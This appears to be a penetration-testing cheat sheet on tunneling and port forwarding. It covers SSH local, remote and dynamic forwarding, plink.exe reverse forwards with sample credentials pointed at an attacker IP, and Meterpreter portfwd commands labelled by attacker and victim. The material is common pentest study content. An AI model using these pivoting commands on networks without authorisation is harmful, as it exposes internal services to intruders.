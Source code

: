 # Tunneling/Port Forwarding

### SSH tunneling

Local port forwarding

```
ssh <gateway> -L <local port>:<remote host>:<remote port>
```

Remote port forwarding

```
ssh <gateway> -R <remote port>:<local host>:<local port>
```

Dynamic port forwarding

```
ssh -D <local port> -p <remote port> <target>
```

HTTP tunneling – technique to encapsulate a protocol within HTTP

```
HTTPTunnel or stunnel
```

### Plink.exe

```
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

### Meterpreter

```
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.10
```
